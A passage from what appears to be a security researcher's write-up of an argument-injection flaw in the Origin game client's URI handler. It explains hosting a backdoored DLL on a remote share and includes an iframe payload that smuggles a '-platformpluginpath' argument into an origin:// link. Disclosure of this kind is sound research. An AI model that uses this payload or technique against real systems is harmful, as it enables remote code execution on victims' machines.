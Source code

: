 
[![]({{site.baseurl}}/assets/create_payload.png "Origin Arginj")]({{site.baseurl}}/assets/create_payload.png)

Now that we've created our backdoored plugin, all we have to do is host a Windows share where we can remotely download it from.

This Windows share must have one of the directories from the table within it, otherwise it won't properly load the DLL. Since we're using imageformats... well, we'll use imageformats.

[![]({{site.baseurl}}/assets/remote_share.png "Origin Arginj")]({{site.baseurl}}/assets/remote_share.png)

Where imageformats is hosting our backdoored plugin "FILE1337.dll"

## Finalizing the Payload

Obviously, this isn't complete yet. We have "arguably" arbitrary code execution, but not remote yet as we have no way to get a user to actually launch our crafted URI. This is where the iframe comes in.

```
<iframe src='origin://?" -platformpluginpath \\NOTDANGEROUS "'>
```

We can host this iframe wherever we want, our target just needs to open it on an outdated browser. If you try the following on Firefox, the process getting spawned looks like this:

[![]({{site.baseurl}}/assets/opened_from_firefox.png "Origin Arginj")]({{site.baseurl}}/assets/opened_from_firefox.png)

Clearly this defeats the argument injection, which is what I mentioned earlier. This makes exploiting the Origin vulnerability much more difficult.

Unless we can find a way to launch the process without encoding the special characters on an updated system... this exploit may not pose as big a threat.

Anyways, like before, let's just make sure everything works on Internet Explorer before we get ahead of ourselves.

<iframe width="780" height="550" src="https://www.youtube.com/embed/E9vCx9KsF3c" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

# An Issue With .URL Files

Seeing as modern browsers seem to protect against injecting arguments into custom URIs, I decided to look into Windows shortcuts. Interestingly enough, shortcut files do not encode special characters, which is an issue on its own. Would Microsoft consider this an issue? Hard to say. If they do, you saw it here first lol.

Anyways, a .url file typically looks like this:

```
[InternetShortcut]
URL=https://www.google.com
```
